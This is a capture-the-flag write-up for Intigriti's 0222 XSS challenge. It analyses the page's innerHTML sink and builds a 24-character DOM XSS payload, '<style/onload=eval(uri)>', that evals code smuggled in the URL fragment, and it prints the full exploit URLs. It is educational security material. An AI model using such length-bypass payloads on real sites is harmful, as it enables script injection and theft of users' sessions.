







## Write-up

### Challenge Analysis

Inspecting the [source](view-source:https://challenge-0222.intigriti.io/challenge/xss.html) of this challenge, we are greeted with a straightforward looking code.

```html
<script>
  window.name = 'XSS(eXtreme Short Scripting) Game'

  function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
  }

  window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
      showModal('Error!', "It's empty")
      return
    }

    if (inputName.length > 24) {
      showModal('Error!', "Length exceeds 24, keep it short!")
      return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
  }

  if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
      showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
      showModal('Welcome back!', qs)
    }
  }
</script>
```

It looks like our [sink](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss) is in the `showModal(title, content)` function as it places both `title` and `content` arguments into the `innerHTML` sink.

Tracing from sink to source, we see that there is only 1 occurrence where we could control the arguments being used in a function call to `showModal(title, content)`, which is in the last `if` code block:

```js
if (location.href.includes('q=')) {
  var uri = decodeURIComponent(location.href)
  var qs = uri.split('&first=')[0].split('?q=')[1]
  if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
  } else {
    showModal('Welcome back!', qs)
  }
}
```

Notice that in order to enter the outer `if` block, our URL must contain the string `q=`. The full URL is then passed into [decodeURIComponent()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/decodeURIComponent) and stored into the `uri` variable. Then, the variable `qs` would store the string contained inside the HTTP parameter `q`. A check is made at the inner `if` block to ensure that the length of `qs` does not exceed **24** characters. Finally, `qs` is used in a function call to `showModal(title, content)`, meaning that the content stored in `qs` will be used in `innerHTML`.

**Other than the length restriction, it looks like this is the path to achieve DOM XSS.**

---

### Crafting the Solution

With only **24** characters to work with, we had to find a short DOM XSS payload. Since this is DOM XSS, we will not be able to use payloads like `<script>alert(document.domain)</script>` since the page would have already been rendered (also that the payload length is too long!).

Looking up "short XSS payloads" gives us the following [repo](https://github.com/terjanq/Tiny-XSS-Payloads) prepared by terjanq. The first few payloads all made use of `<svg/onload...>` so let's try it out the payload `<svg/onload=alert(1)>`:



Nice, the alert pops but this is not our goal. We have to somehow display the `document.domain` in our alert. 🤔 Our current payload is already **21** characters long!

Going back to the source code, we observe that there is a JavaScript variable defined that we could use in our payload. Here's a hint: it can be found within the last code snippet above.

...

By making use of the `uri` variable, we could simply add our payload into the URL (which would bypass the length restriction) and then call `eval()` on it. Let's try the payload `<svg/onload=eval(uri)>` (**22** characters) and also appending `#alert(document.domain)` to our URL:



Syntax error! Let's inspect how the payload played out:



Looks like calling `eval()` on the entire URL as it is was not a good idea. Remember how `uri` is storing the URL-decoded string? We could insert URL-encoded special characters such as new lines into our URL which would get decoded. Inserting a new line character (`%0A`) before our `alert(document.domain)` in the URL, our URL now looks like:

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Csvg/onload=eval(uri)%3E&first=yes#%0aalert(document.domain)
```



It works! ... but only on Chrome. The challenge states that our payload must work on both Chrome and Firefox latest versions.



Further [research](https://portswigger.net/web-security/cross-site-scripting/dom-based) showed that:

> The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements.

... which is odd seeing that our `svg onload` payload worked on Chrome 🤔

Nonetheless, we went back to the small XSS payloads repo and found that we could use the `style` tag instead, which would bump up our payload to **24** characters long: `<style/onload=eval(uri)>`.

The final URL is now:

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=yes#%0aalert(document.domain)
```

**Chrome**



**Firefox**



Minified URL: 

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=%0Aalert(document.domain)
```

---

## Further Reading
1. [https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)
2. [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss)
3. [https://github.com/terjanq/Tiny-XSS-Payloads](https://github.com/terjanq/Tiny-XSS-Payloads)
